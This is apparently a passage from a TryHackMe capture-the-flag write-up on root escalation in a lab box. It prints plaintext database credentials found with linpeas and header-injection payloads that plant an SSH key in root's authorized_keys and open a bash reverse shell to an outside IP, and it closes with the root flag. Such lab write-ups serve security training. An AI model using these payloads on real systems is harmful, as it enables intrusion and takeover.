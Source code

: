 
On running linpeas we found. 
```
/var/www/development/config.php:define('DB_PASSWORD', 'Sup3rAwesOm3Cat!');                                    
/var/www/development/config.php:define('DB_USERNAME', 'kitty');
/var/www/html/config.php:define('DB_PASSWORD', 'Sup3rAwesOm3Cat!');
/var/www/html/config.php:define('DB_USERNAME', 'kitty');

```

Running [pspy64](https://github.com/DominicBreuker/pspy) on the box

![[Pasted image 20240217002105.png]]

![[Pasted image 20240217002127.png]]

There seems to be another sever running at the box

checking on the db 

![[Pasted image 20240217002545.png]]


and we have another service on port 8080 as we dont have any other user data other then kitty
![[Pasted image 20240217002915.png]]

forwarding the port to local 

![[Pasted image 20240217004135.png]]

And there is the usual same old webpage.

Focusing back on the script in /opt/ 
it so seems that its logging the data to the root folder, we can somehow overwrite the data and try to get the root access

On checking the code base, we see that we are logging the ip for the bad user activity where sql injection is detected, but on trying an empty string is being populated..

![[Pasted image 20240217004626.png]]

On checking the request, we dont have the desired parameter itself...
![[Pasted image 20240217004830.png]]

After working on payload and adding the headers, we finally got the desired output in the logged file, but its being overwritten by the cron

![[Pasted image 20240217005702.png]]

![[Pasted image 20240217005714.png]]

We can escape the echo by passing  ";" and then the own command


`X-Forwarded-For:; echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHRj4MK91KXpCZgtSZqy1RAOjWWVyW/GVdjFCjH/4msx"> /root/.ssh/authorized_keys`
![[Pasted image 20240217010257.png]]


```
X-Forwarded-For:; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.17.55.107/9001 0>&1'
```

Okay so with the above header being passed with the port opened to listen, we finally got the reverse shell.

![[Pasted image 20240217011755.png]]

![[Pasted image 20240217011918.png]]

Root flag: THM{581bfc26b53f2e167a05613eecf039bb}

